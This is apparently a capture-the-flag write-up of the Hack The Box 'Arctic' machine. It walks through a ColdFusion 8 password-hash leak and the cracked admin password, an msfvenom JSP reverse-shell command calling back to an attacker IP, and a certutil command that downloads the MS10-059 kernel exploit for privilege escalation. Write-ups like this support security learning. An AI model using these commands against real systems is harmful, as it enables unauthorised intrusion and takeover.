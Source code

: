 ```yaml
---
title:     "Hack The Box - Arctic"
tags: [windows,easy,ms10-059]
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/1.png)

We are going to pwn Arctic from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/9>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista (91%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (91%), Microsoft Windows Phone 7.5 or 8.0 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8.1 (90%), Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (90%), Microsoft Windows 7 (90%), Microsoft Windows 7 Professional or Windows 8 (90%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Nmap scan doesn't show whats in port ``8500`` so I started checking that, Which reveals a directory.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/2.png)

``/cfdocs/``<br/>
Some docs files, nothing useful.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/3.png)

``/CFIDE/``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/4.png)

Found an ``administrator`` over there and it leads to an login page. Which is ``ColdFusion8`` by Adobe.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/5.png)

Since we know the version we can start looking for exploits and I found this.

>https://www.exploit-db.com/exploits/14641

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/6.png)

I tried that payload in the url and it gave me a hash, It will be the admin's hash.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/7.png)

I used [CrackStation](https://crackstation.net/) to do this.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/8.png)

Logged in as admin `` happyday`` 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/10.png)

Now its time to get reverse shell, Under ``Debugging & Logging`` Category I found ``Scheduled Tasks``.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/11.png)


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/12.png)
It gives us an ability to download an file and store it in the box - ``Publish`` but we need to give the directory.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/13.png)

Since ColdFusion running as ``Java`` we need to create a reverse shell using ``jsp``.

> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.31 LPORT=1234 -f raw > shell.jsp

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/14.png)

We need to upload it so, I started Python HTTP server.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/15.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/16.png)

Now where to store the script? I found the location of ``ColdFusion`` in ``Server Settings > Mappings``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/17.png)

Now its time to upload the shell!!
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/18.png)

Once uploaded I visited ``http://10.10.10.11:8500/CFIDE/`` is where the ``reverse shell`` is stored.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/19.png)

Started my listener and opened ``shell.jsp`` <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/20.png)

Got User Shell and Flag!

## Privilege Escalation:

Like always when I get a shell I start with ``systeminfo`` <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/21.png)

Where Hotfix(s): N/A which means the system is not updated so far.

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

So we can try with [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

I Copied the ``systeminfo`` output to my machine as ``systeminfo.txt`` and start WIndows_Exploit_Suggester.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/22.png)
Since there is a lot of vulnerability, I started with ``MS10-059``.Searched for exploits and found this [Windows_kernel_exploit](https://github.com/egre55/windows-kernel-exploits)
This is the one we need.
> https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri

Uploaded the executable to the box 

> certutil.exe -urlcache -split -f http://10.10.14.31:8000/Chimichurri.exe Chimichurri.exe

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/23.png)

Started my Listener and got AUTHORITY

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-arctic/24.png)











